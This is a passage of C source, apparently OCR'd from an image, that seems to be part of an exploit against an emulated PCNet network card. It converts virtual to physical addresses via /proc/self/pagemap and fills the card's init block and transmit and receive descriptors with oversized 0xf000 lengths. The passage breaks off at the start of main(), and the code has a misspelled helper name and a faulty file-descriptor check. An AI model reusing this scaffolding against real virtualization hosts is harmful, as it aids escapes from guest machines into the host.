 ```

    int fd = open("/proc/self/pagemap",O_RDONLY);
    if(!fd){
        perror("open pagemap");
        return 0;
    }

    size_t pagesize = getpagesize();
    size_t offset = ((uintptr_t)addr / pagesize) * sizeof(uint64_t);

    if(lseek(fd,offset,SEEK_SET) < 0){
        puts("lseek");
        close(fd);
        return 0;
    }

    if(read(fd,&data,8) != 8){
        puts("read");
        close(fd);
        return 0;
    }

    if(!(data & (((uint64_t)1 << 63)))){
        puts("page");
        close(fd);
        return 0;
    }

    size_t pageframenum = data & ((1ull << 55) - 1);
    size_t phyaddr = pageframenum * pagesize + (uintptr_t)addr % pagesize;

    close(fd);

    return phyaddr;
}

uint32_t set_csr_15_value_equal_2(struct pcnet_initblk32 *initblk32,uint32_t cxda,uint32_t crda){
    initblk32->mode = 4;
    initblk32->tdra = cxda;
    initblk32->rdra = crda;
    return virtuak_addr_to_physical_addr(initblk32);
}

uint32_t set_tmd(struct pcnet_TMD *tmd){
    tmd->length = 0xf000;
    tmd->status = 0x8300;
    return virtuak_addr_to_physical_addr(tmd);
}

uint32_t set_rmd(struct pcnet_RMD *rmd){
    rmd->buf_length = 0xf000;
    rmd->status = 0x8000; 
    return virtuak_addr_to_physical_addr(rmd);
}

int main(){
    struct pcnet_initblk32 *initblk32;
    struct pcnet_TMD *tmd;
    struct pcnet_RMD *rmd;
    uint32_t pcnet_initblk32_mem;
    uint32_t pcnet_tmd_mem;
    uint32_t pcnet_rmd_mem;

```